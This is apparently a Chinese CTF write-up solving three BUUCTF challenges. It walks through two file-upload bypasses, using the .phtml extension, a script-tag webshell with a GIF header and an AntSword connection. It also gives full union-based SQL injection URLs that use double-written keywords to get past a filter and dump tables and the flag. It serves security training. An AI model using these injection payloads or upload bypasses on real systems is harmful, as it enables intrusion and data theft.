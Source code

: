 ```yaml
---
description: 记录蛤
---
```


# 💔 刷题wp

## （1）\[极客大挑战 2019]Upload 1

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

其实很明显的就知道考的是文件上传漏洞，

先交了个空的后缀名为jpg的文件，发现他其实能识别出来图片。

<figure><img src="../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

所以我先直接放一张图片。后面发现jpg和png都不行，都是说

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

发现可能是我的思路不对。我决定直接抓个包看看。

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

看看前端能不能直接绕过。

<figure><img src="../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

被识别出来了是php。然后用了畸形的php2，php3，php4，php5，pht，全部都被ban了

<figure><img src="../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

然后我们用phtml时，结果是成功的。并且还提示了，我的文件包括了\<?。

<figure><img src="../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

所以我们可能代码厘米不能含有\<?，所以我们需要用其他的变形方式来替代了。就是用js标签的方式

<figure><img src="../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

发现还是检测出来不是图片了，我们可能是需要添加文件头来绕过他的判断。所以添加文件头需要转化为ascii码GIF&'=

<figure><img src="../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

可以看到上传成功了。然后我们查看upload/1.phtml看看是否上传成功

<figure><img src="../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

成功了，我们再输入我们需要的指令。其实这个在我查看路径的过程中我发现了这个的麻烦之处，就是他的flag的存放路径有点难找，所以这里我是用的antsword（蚁剑）

<figure><img src="../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

***

## （2）\[ACTF2020 新生赛]Upload 1

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

点击那个灯泡就有了文件上传，应该还是文件上传漏洞。随便上传一张图片。

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

我们可以发现上传的文件的路径是在/uplo4d/下面。我们还是尝试抓包。

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

然后改包上传我们的木马语句，然后发现识别出来是bad file，我们在文件前面加图片头试试。

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

发现加了文件头还是失败，后面我们修改了文件后缀，我们直接用的phtml，不知道为什么也就他可以，然后结果就发现出来了。上传成功了。

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

然后去到那个文件下面，发现成功了。

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

直接连接antsword了，毕竟这上面的题目的路径都很复杂。

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

***

## (3)\[极客大挑战 2019]BabySQL 1

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

感觉这个应该有一些过滤或者什么的。随便试试一个闭合

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

然后发现or没了，所以怀疑一些关键词or and这种都被过滤了。后面还发现，order by因为前面有or，也被过滤了啦，太离谱了有点。后面发现union，select这种全部被过滤了。

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

对于过滤的方式，我们采用双写的方式绕过这个过滤。然后联合查询看看到底有几列。

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

其实这种一般也就3，4列，结果3刚好就试出来了。并且他的回显我们看到，他是hello后面显示第二列的，密码显示第三列的，其实第二和第三都有回显，那么我们可以在这里做一些文章了。

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

首先查询数据库名了。

```url
http://a21dc942-8a66-4a7d-bd94-c355dfbad89e.node5.buuoj.cn:81/check.php?username=admin&password=admin%27+uunionnion+selselectect+1,database(),3+%23
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

好好数据库名为geek，查看表名，这里有个坑就是or被过滤了，需要双写，你说好不好玩。

```
http://a21dc942-8a66-4a7d-bd94-c355dfbad89e.node5.buuoj.cn:81/check.php?username=admin&password=admin%27+uunionnion+selselectect+1,group_concat(table_name),3+frfromom infoorrmation_schema.tables whwhereere table_schema='geek'+%23
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

这里有两张表，b4bsql,geekuser。我猜是这个geekuser有信息哦。查查列名吧。

```
http://a21dc942-8a66-4a7d-bd94-c355dfbad89e.node5.buuoj.cn:81/check.php?username=admin&password=admin%27+uunionnion+selselectect+1,group_concat(column_name),3+frfromom infoorrmation_schema.columns whwhereere table_name='geekuser'+%23
```

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

很明显，是这个，三个列，username，id，password，三个。直接看吧。password别忘了双写，真的荒谬。

```
http://a21dc942-8a66-4a7d-bd94-c355dfbad89e.node5.buuoj.cn:81/check.php?username=admin&password=admin%27+uunionnion+selselectect+1,group_concat(passwoorrd),3+frfromom geek.geekuser+%23
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

阿哲，其实这个时候竟然不是，我人傻了，难道是错了一个表应该。是另外一个表。我服了。

```
http://a21dc942-8a66-4a7d-bd94-c355dfbad89e.node5.buuoj.cn:81/check.php?username=admin&password=admin' uniunionon selselectect 1,group_concat(passwoorrd),3 frfromom geek.b4bsql %23
```

果然flag在这里。

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Syclover @ cl4y

Login Success!

Hello i\_want\_to\_play\_2077,sql\_injection\_is\_so\_fun,do\_you\_know\_pornhub,github\_is\_different\_from\_pornhub,you\_found\_flag\_so\_stop,i\_told\_you\_to\_stop,hack\_by\_cl4y,flag{7a63c8bc-9eef-43cd-9b56-bce0ecce2961}！

Your password is '3'





















